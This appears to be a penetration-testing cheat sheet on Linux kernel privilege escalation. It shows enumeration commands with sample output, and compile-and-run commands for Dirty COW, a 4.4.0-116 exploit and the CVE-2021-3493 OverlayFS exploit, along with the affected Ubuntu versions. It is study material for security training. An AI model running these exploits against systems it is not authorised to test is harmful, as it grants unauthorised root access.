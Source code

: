 # Linux Internals-Based Priv Esc

- Kernel Exploit
- Shared Libraries
- Shared Object Hijacking
- Python Library Hijacking

## Kernel Exploit

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is Dirty COW (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It is very common to find systems that are vulnerable to kernel exploits.

**Enumeration**
````
$ uname -a
Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

$ cat /etc/lsb-release 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
````
Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box.

Exploit 4.4.0-116
````
$ gcc -static kernel_exploit_ubuntu.c -o kernel_exploit_ubuntu && chmod +x kernel_exploit_ubuntu
$ ./kernel_exploit_ubuntu
````

DirtyCow
````
$ gcc -static -static-libgcc -static-libstdc++ dirtycow.c -o dirtycow && chmod +x dirtycow
$ gcc -static dirtycow.c -o dirtycow && chmod +x dirtycow
$ ./dirtycow 
````

CVE-2021-3493 - Ubuntu OverlayFS Local Privesc

Affected Versions
- Ubuntu 20.10
- Ubuntu 20.04 LTS
- Ubuntu 19.04
- Ubuntu 18.04 LTS
- Ubuntu 16.04 LTS
- Ubuntu 14.04 ESM

````
$ gcc -static -static-libgcc -static-libstdc++ -o ubuntu_exploit exploit_ubuntu.c
$ ./ubuntu_exploit
````
